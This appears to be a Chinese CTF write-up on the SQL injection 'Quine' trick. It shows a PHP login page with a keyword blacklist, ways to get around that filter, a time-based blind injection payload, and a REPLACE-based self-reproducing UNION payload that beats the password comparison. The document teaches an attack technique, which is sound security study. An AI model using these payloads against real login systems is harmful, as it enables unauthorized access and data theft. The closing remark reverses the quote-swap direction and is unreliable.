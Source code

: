# 简介

`Quine`又叫做自产生程序，在`sql`注入技术中，这是一种是的输入的`SQL`

语句与输出的`SQL`语句一致的技术，常用于一些特殊的登陆绕过`sql`注入中。





实践

````
function checkSql($s) {
    if(preg_match("/regexp|between|in|flag|=|>|<|and|\||right|left|reverse|update|extractvalue|floor|substr|&|;|\\\$|0x|sleep|\ /i",$s)){
        alertMes('hacker', 'index.php');
    }
}

if (isset($_POST['username']) && $_POST['username'] != '' && isset($_POST['password']) && $_POST['password'] != '') {
    $username=$_POST['username'];
    $password=$_POST['password'];
    if ($username !== 'admin') {
        alertMes('only admin can login', 'index.php');
    }
    checkSql($password);
    $sql="SELECT password FROM users WHERE username='admin' and password='$password';";
    $user_result=mysqli_query($con,$sql);
    $row = mysqli_fetch_array($user_result);
    if (!$row) {
        alertMes("something wrong",'index.php');
    }
    if ($row['password'] === $password) {
    die($FLAG);
    } else {
    alertMes("wrong password",'index.php');
  }
}
````

观察这个源码，存在一个看似很明显的`SQL`注入，黑名单中还有许多的过滤。

例如：

like替换'=',benchmark()替换sleep函数，mid()函数替换`substr()`函数，/**/替换空格。

下面是注入的payload

````
union select if((select ascii(mid((select group_concat(table_name)from sys.schema_table_statistics_with_buffer where table_schema like database()),{},1)) like {}),(select benchmark(4999999,md5('test'))),1)#
````

（`sys.schema_table_statistics_with_buffer`是`Mysql`数据库中的一个系统视图，提供了数据库中的表哦的统计信息和缓冲池的使用情况）

这样注入得到的表中并没有密码。

再观察源码

````
$sql="SELECT password FROM users WHERE username='admin' and password='$password';";
$user_result=mysqli_query($con,$sql);
$row = mysqli_fetch_array($user_result);

if ($row['password'] === $password) {
    die($FLAG);
````

简单说说就是`sql`查询得到的结果与password相等，那么除了正常的逻辑的密码相同会产生相等，如果我们的输入与最后的结果，一样可以绕过验证，这就是`Quine`。

````
REPLACE ( string1 , string2 , string3 )
````

首先要知道replace函数的三个参数，第一个参数是要替换的整个字符串，第二个参数被替换的字符(串) ，第三个是要替换成的字符(串)

直接分析这个地方使用`Quine`技术的payload

````
union/**/SELECT/**/REPLACE(REPLACE('"/**/union/**/SELECT/**/REPLACE(REPLACE(".",CHAR(34),CHAR(39)),CHAR(46),".")/**/AS/**/ch3ns1r#',CHAR(34),CHAR(39)),CHAR(46),'"/**/union/**/SELECT/**/REPLACE(REPLACE(".",CHAR(34),CHAR(39)),CHAR(46),".")/**/AS/**/ch3ns1r#')/**/AS/**/ch3ns1r#
````

首先是一个大的REPLACE(),令他为A

````
REPLACE('"/**/union/**/SELECT/**/REPLACE(REPLACE(".",CHAR(34),CHAR(39)),CHAR(46),".")/**/AS/**/ch3ns1r#',CHAR(34),CHAR(39))
````

其中有一个字符串，令他为B

````
"/**/union/**/SELECT/**/REPLACE(REPLACE(".",CHAR(34),CHAR(39)),CHAR(46),".")/**/AS/**/ch3ns1r#
````

则最初的payload就为

````
union/**/SELECT/**/REPLACE(A,CHAR(46),B)/**/AS/**/ch3ns1r#

A：REPLACE('B',CHAR(34),CHAR(39))
B："/**/union/**/SELECT/**/REPLACE(REPLACE(".",CHAR(34),CHAR(39)),CHAR(46),".")/**/AS/**/ch3ns1r#
````

下面这个就是`Quine`的基本形式了

````
REPLACE(A,CHAR(46),B)  ----char(46)= .   char(34)="   char(39)='
````

外层replace()：将双引号char(34)双引号替换为char(39)单引号。

内层replace():  将点号char(46)替换为整个payload字符串。

举个例子：
假设一个`str`为（）

````
REPLACE(".",CHAR(46),".")
````

最后的语句为：

````
REPLACE('REPLACE(".",CHAR(46),".")',CHAR(46),'REPLACE(".",CHAR(46),".")')
````

首先执行char(46)得到的是点号，然后执行replace()

最后得到的结果是：
````
REPLACE('REPLACE(".",CHAR(46),".")',CHAR(46),'REPLACE(".",CHAR(46),".")')
````

将`str1`中的点号都替换为了`str`





最后再详细的解释一下最开始的payload

````
'/**/union/**/SELECT/**/REPLACE(REPLACE('"/**/union/**/SELECT/**/REPLACE(REPLACE(".",CHAR(34),CHAR(39)),CHAR(46),".")/**/AS/**/ch3ns1r#',CHAR(34),CHAR(39)),CHAR(46),'"/**/union/**/SELECT/**/REPLACE(REPLACE(".",CHAR(34),CHAR(39)),CHAR(46),".")/**/AS/**/ch3ns1r#')/**/AS/**/ch3ns1r#
````

完整的结构为：

````
REPLACE(
  REPLACE(
    '原Payload字符串', 
    CHAR(34),  -- 替换双引号为单引号
    CHAR(39)
  ),
  CHAR(46),    -- 替换点号(.)为新的Payload
  '新Payload字符串'
)
````

首先执行内层的replace()

````
REPLACE(
    '原Payload字符串', 
    CHAR(34),  -- 替换双引号为单引号
    CHAR(39)
  )
  
原Payload字符串："/**/union/**/SELECT/**/REPLACE(REPLACE(".",CHAR(34),CHAR(39)),CHAR(46),".")/**/AS/**/ch3ns1r#
````

得到的结果为：
````
'/**/union/**/SELECT/**/REPLACE(REPLACE('.',CHAR(34),CHAR(39)),CHAR(46),'.')/**/AS/**/ch3ns1r#
````

再执行外部的replace

````
REPLACE(
  第一次的结果,
  CHAR(46),    -- 替换点号(.)为新的Payload
  '新Payload字符串'
)
````

得到的结果为：
````
'/**/union/**/SELECT/**/REPLACE(REPLACE('"/**/union/**/SELECT/**/REPLACE(REPLACE(".",CHAR(34),CHAR(39)),CHAR(46),".")/**/AS/**/ch3ns1r#',CHAR(34),CHAR(39)),CHAR(46),'"/**/union/**/SELECT/**/REPLACE(REPLACE(".",CHAR(34),CHAR(39)),CHAR(46),".")/**/AS/**/ch3ns1r#')/**/AS/**/ch3ns1r#'
````

**精妙的地方：**

通过内层的replace()将单引号全部转化为了双引号从而解决了符号的问题。

